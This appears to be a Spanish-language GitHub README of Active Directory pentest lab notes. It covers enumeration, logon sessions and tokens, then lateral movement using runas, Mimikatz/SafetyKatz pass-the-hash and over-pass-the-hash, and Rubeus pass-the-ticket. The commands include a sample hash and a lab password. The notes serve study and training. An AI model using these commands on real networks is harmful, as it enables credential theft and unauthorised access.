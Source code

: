 ## Tabla de contenido

- [Enumeración](#Enumeración).
- *[LogonSesssion](#LogonSesssion)*.
- [Token](#Token).
- [Movimiento_lateral](#Movimiento_lateral).
  - [runas](#runas).
  - *[Pass-the-Hash](#Pass-the-Hash)*.
  - *[Over-Pass-the-Hash](#Over-Pass-the-Hash)*.

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
## *Over-Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se actualizan *hash* y/o llaves de la sesión.
3. Se copia el *token* original.
4. Similar a **runas /netonly** pero sin credenciales.

La técnica de *Over Pass the Hash* implica la generación de un nuevo ticket de Kerberos y la importación de este ticket en la memoria del sistema, lo cual generalmente requiere privilegios de administrador.
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /ptt"
```

En este caso, se agrega el parámetro **/ptt** al comando de *Pass the Hash* anterior. Esto indica a Mimikatz que importe el ticket de Kerberos generado en la memoria del sistema para establecer una sesión de autenticación en lugar de solo realizar un *Pass the Hash*. Esto permite realizar la técnica de *Over Pass the Hash* y obtener acceso a otros recursos o sistemas dentro de la red.

## Pass-the-Ticket

El parámetro "asktgt" en Rubeus, se utiliza para solicitar un Ticket Granting Ticket (TGT) utilizando las credenciales de un usuario especificado. Y es psoible realizarlo de manera remota:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:cs.org\juan /password:Colombia.2023. /dc:192.168.1.155
# Para importar el *ticket*:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFDjCCBQqgAw...
```

## ASK-TGT/TGS

Se genera tráfico legítimo Kerberos para solicitar: AS-REQ TGS-REQ. ¡No necesita ser administrador!
Para solicitar el TGT concociendo el *Hash* del usuario: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:juan /domain:cs.org /rc4:709d4242de780b1f34c19c78ad1630fd /dc:192.168.1.155 /ptt
```
Al listar el *ticket*, solo se tendrá el recién importado:
```powershell
PS C:\Users\ffff> klist

Current LogonId is 0:0x7f0cb

Cached Tickets: (1)

#0>     Client: juan @ CS.ORG
        Server: krbtgt/cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/26/2024 12:35:32 (local)
        End Time:   6/26/2024 22:35:32 (local)
        Renew Time: 7/3/2024 12:35:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Al consumir el servicio CIF, se creará el TGS, Windows hará el trabajo.

```powershell
#2>     Client: juan @ CS.ORG
        Server: cifs/server-01 @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2024 12:49:01 (local)
        End Time:   6/26/2024 22:48:51 (local)
        Renew Time: 7/3/2024 12:48:51 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: SERVER-01.cs.org
```
